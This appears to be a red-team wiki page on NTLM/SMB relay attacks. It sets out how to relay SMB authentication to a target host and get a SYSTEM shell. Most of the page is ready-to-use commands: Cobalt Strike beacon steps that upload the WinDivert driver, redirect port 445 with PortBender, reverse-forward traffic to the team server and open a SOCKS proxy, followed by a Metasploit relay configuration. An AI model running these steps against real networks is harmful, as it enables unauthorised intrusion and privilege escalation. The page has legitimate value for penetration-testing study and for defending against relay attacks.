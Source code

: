 ![](../../.gitbook/assets/45662029-1b5e6300-bace-11e8-8180-32f8d377d48b.png)

## NTML Relay Attack

This attack relays **SMB authentication sessions** on an internal network to a **target machine**. If the authentication **session is successful**, it will automatically drop you into a **system** **shell**. Please, note that the relayed authentication must be from a **user which has Local Admin access to the relayed** host and **SMB signing must be disabled**.

### 445 forward and tunneling

{% hint style="warning" %}
If you can **introduce a machine inside the network** you can use any of the **tools** of the following section to perform a relay attack and you don't need to care about this.
{% endhint %}

However, in red teams this isn't the case, in red teams you usually will need to **forward the traffic of the port 445 of a Windows machine to your machine** executing any of the following tools and then r**oute back the traffic of that tool through a proxy** to reach the machine to attack inside the internal.

The tool [**PortBender**](https://github.com/praetorian-inc/PortBender) \*\*\*\* is a driver to **redirect** traffic destined for port **445 to another port** (e.g. 8445) that **we can bind**. It **requires local admin** access in order for the driver to be loaded. It makes sense to use `cd C:\Windows\System32\drivers` since this is where most Windows drivers go.

```bash
Cobalt Strike -> Script Manager -> Load (Select from the filesystem PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Go to drivers dir
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Forward traffic to 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Send traffic to port 8445 to Team Server
beacon> socks 1080 # Socks proxy in port 1080 to attack host in the internal network from the Team Server

# To kill
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```

### Metasploit

```bash
setg Proxies socks4:127.0.0.1:1080 # Use this if you need to route the traffic to reach the attacked ip
set SRVHOST <local_ip>
set SRVPORT 445
set SMBHOST <ip_to_auth_to>
run -j
```
